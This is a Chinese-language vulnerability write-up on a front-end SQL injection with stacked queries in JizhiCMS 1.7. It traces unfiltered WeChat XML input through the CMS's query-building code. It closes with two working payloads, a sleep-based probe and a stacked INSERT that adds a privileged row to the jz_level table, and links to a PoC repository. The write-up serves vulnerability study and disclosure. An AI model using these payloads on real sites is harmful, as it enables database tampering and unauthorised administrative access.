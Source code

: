 # 极致CMS1.7 另一处前台SQL注入

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 0x00 漏洞描述

复现了 `CNVD-2021-26000` 之后，搜索了一下极致 `cms` 相关漏洞，发现 1.7 版本的漏洞还真不少，并且还有另一个前台`SQL` 注入，并且支持堆叠查询。

## 0x01 漏洞影响

极致CMS1.7

## 0x02 漏洞分析

关于这个 `cms` 数据库方面的一些基础已经在之前发的文章中讲了一些了，数据库操作基本上没有任何防护，但是大部分的输入都是有同一套比较完善的过滤，因此我们需要找到没有过滤的输入，并且会代入数据库操作的地方

这里有一处 `Home/c/WechatController.php` 的 `responseMsg` 方法

```php
$postStr = file_get_contents('php://input');
if (!empty($postStr)){
    libxml_disable_entity_loader(true);
    $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
    $this->postObj = $postObj;
    $fromUsername = $postObj->FromUserName;
    $toUsername = $postObj->ToUserName;
    $keyword = trim($postObj->Content);
    $time = time();
    $textTpl = "<xml>
                    <ToUserName><![CDATA[%s]]></ToUserName>
                    <FromUserName><![CDATA[%s]]></FromUserName>
                    <CreateTime>%s</CreateTime>
                    <MsgType><![CDATA[%s]]></MsgType>
                    <Content><![CDATA[%s]]></Content>
                    <FuncFlag>0</FuncFlag>
                    </xml>";
    if($postObj->MsgType=='event'){
        switch ($postObj->Event){
            case 'CLICK':
            break;
            case 'subscribe':
            $openid = $fromUsername;
            $islive = M('member')->find(array('openid'=>$openid));
```

首先是

```php
$postStr = file_get_contents('php://input');
```

这里是直接获取数据流，赋值给 `$postStr` ，因此这里就没有其他过滤

然后使用函数解析 `simplexml_load_string` ，可以用来解析 `xml` 字符串，要不是上面那一句，这里就有 `xxe` 漏洞咯

接下来是一串赋值，最后进入一个 `if` 语句，只有满足 `$postObj->MsgType=='event'` ，才会继续向下执行，而这个值是我们可控的，不成问题，设置

```xml
<MsgType><![CDATA[event]]></MsgType>
```

然后是 `switch` 语句，比较简单，选择使得 `$postObj->Event ==  'subscribe'`

```xml
<Event><![CDATA[subscribe]]></Event>
```

然后会执行

```php
$openid = $fromUsername;
$islive = M('member')->find(array('openid'=>$openid));
```

这里会先赋值，然后进入数据库操作，而这个 `$fromUsername` 在上面有定义

```php
$fromUsername = $postObj->FromUserName;
```

这也是可控的，可以这样

```xml
<FromUserName><![CDATA[1]]></FromUserName>
```

最后进入到了 `FrPHP/lib/Model.php` 的 `find` 方法

```php
public function find($where=null,$order=null,$fields=null,$limit=1)
{
   if( $record = $this->findAll($where, $order, $fields, 1) ){
        return array_pop($record);
    }else{
        return FALSE;
    }
}
```

这实际上是调用 `$this->findAll` ，只是限制了查询数量为 1，我们看 `$this->findAll`

```php
public function findAll($conditions=null,$order=null,$fields=null,$limit=null)
{
    $where = '';
    if(is_array($conditions)){
        $join = array();
        foreach( $conditions as $key => $value ){
            $value =  '\''.$value.'\'';
            $join[] = "{$key} = {$value}";
        }
        $where = "WHERE ".join(" AND ",$join);
    }else{
        if(null != $conditions)$where = "WHERE ".$conditions;
    }
  if(is_array($order)){
        $where .= ' ORDER BY ';
        $where .= implode(',', $order);
  }else{
     if($order!=null)$where .= " ORDER BY  ".$order;
  }
    if(!empty($limit))$where .= " LIMIT {$limit}";
    $fields = empty($fields) ? "*" : $fields;
    $table = self::$table;
    $sql = "SELECT {$fields} FROM {$table} {$where}";
    return $this->db->getArray($sql);
}
```

这里的 `$conditions` 就是传进来的 `array('openid'=>$openid)` ，到最后会拼接字符串形成最后的 `sql` 语句

```sql
SELECT * FROM jz_member WHERE openid = '1' LIMIT 1
```

这里的 1 就是传进来的值，这个值没有经过任何过滤，因此我们可以随意拼接，最后传入 `$this->db->getArray($sql)`

```php
public function getArray($sql){
    if(!$result = $this->query($sql))return array();
    if(!$this->Statement->rowCount())return array();
    $rows = array();
    while($rows[] = $this->Statement->fetch(PDO::FETCH_ASSOC)){}
    $this->Statement=null;
    array_pop($rows);
    return $rows;
}
```

然后就会执行 `$this->query($sql)`

```php
public function query($sql){
    $this->arrSql[] = $sql;
    $this->Statement = $this->pdo->query($sql);
    if ($this->Statement) {
        return $this;
    }else{
        $msg = $this->pdo->errorInfo();
        if($msg[2]){
            Error_msg('数据库错误：' . $msg[2] . end($this->arrSql));
        }
    }
}
```

这里使用了一个 `pdo` 对象（ `pdo` 数据对象扩展是 `php` 访问数据库的一个轻量级接口，`PDO` 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据。），可以使用堆叠查询

执行后返回结果集，之后处理就不管了，至少执行 `sql` 之前没有任何处理，妥妥的 `sql` 注入，而且可以堆叠查询

## 0x03 漏洞复现

![](https://gitee.com/N0puple/nopic/raw/master/img/20210707234408.png)

放两个 `payload`

```
1';select sleep(5)-- 
```

```
1';insert into jz_level values(999,'fff','a877cec7a6ffd70dfd313411d6196a40','1','1','1','1','1','1')#
```

## 0x04 链接

环境与 `poc` 都可以在如下链接获取

### GitHub

https://github.com/N0puple/vulPOC

